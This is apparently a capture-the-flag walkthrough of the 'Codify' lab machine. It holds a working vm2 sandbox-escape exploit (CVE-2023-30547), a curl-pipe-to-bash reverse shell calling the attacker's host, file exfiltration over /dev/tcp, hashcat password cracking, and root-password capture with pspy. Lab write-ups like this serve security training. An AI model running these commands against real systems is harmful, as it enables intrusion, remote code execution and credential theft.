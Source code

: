 I run nmap against the victim ip address, doing a version and script check.

```
nmap -sC -sV {10.129.138.108}
```

I see ports 22, 80, and 3000 are open. When I visit port 80 I find the domain `codify.htb` and add the domain to the hosts file.


```
echo '10.10.11.239 codify.htb' | sudo tee -a /etc/hosts
```
In the directory `/editor` there is a code editor which allows us to test NodeJS code

The code editor uses the open source library `vm2`, which we can find on the `/about` page. There is a vulnerability CVE-2023-30547 in this library, this involves the improper sanitization of exceptions within the `vm2` sandbox, a feature intended to safely execute untrusted code. Attackers can exploit this flaw by raising a host exception that is not properly sanitized  in the `handleException()` function. By doing so, the attacker can escape the sandbox environment and execute arbitrary code on the host.

If we run the following code in the editor:

```
const {VM} = require("vm2");
const vm = new VM();

const code = `
err = {};
const handler = {
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};
  
const proxiedErr = new Proxy(err, handler);
try {
    throw proxiedErr;
} catch ({constructor: c}) {
    c.constructor('return process')().mainModule.require('child_process').execSync('id');
}
`

console.log(vm.run(code));
```
This executes the command `id`, which outputs:

```
uid=1001(svc) gid=1001(svc) groups=1001(svc)
```
I prepared a `rev.sh`, a reverse shell to initiate a callback to our local machine.

```
  echo -e '#!/bin/bash\nsh -i >& /dev/tcp/<YOUR_IP>/4444 0>&1' > rev.sh
```
I run a web server to host the script:

```
python3 -m http.server 8081
```
And start a netcat listener:

```
nc -lnvp 4444
```

We edit the last line of the code on the web app to call the reverse shell.
```
c.constructor('return process')().mainModule.require('child_process').execSync('curl
http://10.10.14.99:8081/rev.sh|bash');
```
This gets us a shell on netcat, to get a better shell I ran `script /dev/null -c bash`.

Searching thru the web directories I found a SQLite database file in `var/www/contacts` directory. I transferred this file to my local box for more analysis.

On my local I ran, to listen:

```
nc -lnvp 2222 > tickets.db
```

Then sending the file to my local:

```
   cat tickets.db > /dev/tcp/10.10.14.99/2222
```

On my local I ran sqlite3 to analyze the file:

```
$ sqlite3 tickets.db

$ select * from users;
```
We get the user `joshua` and a hash, which I ran against hashcat to get the password `spongebob1`.

```
  hashcat --force -m 3200 hash.txt /usr/share/wordlists/rockyou.txt
```

We can now ssh into `joshua` with those credentials. I found a user flag at `/home/joshua/user.txt`.

To find what files we can run as root I ran `sudo -l`, and joshua can run the file `/opt/scripts/mysql-backup.sh`. To get more analysis I ran the snooping tool `pspy64s`.

I downloaded the file locally and ran a web server in that directory:

```
$ wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.0/pspy64s
$   python3 -m http.server 8082
```
From the victim's box I used `wget`:

```
$ wget http://10.10.14.99:8082/pspy64s
$ chmod +x pspy64s
$ ./pspy64s
```

From another shell on our victim's box, we run the file we found from running `sudo -l`:
```
sudo /opt/scripts/mysql-backup.sh
```
After watching `pspy64s` run after we executed the file I found the root password `kljh12k3jhaskjh12kjh3`.

I login and get the root flag:

```
$ su root
$ cat /root/root.txt
```













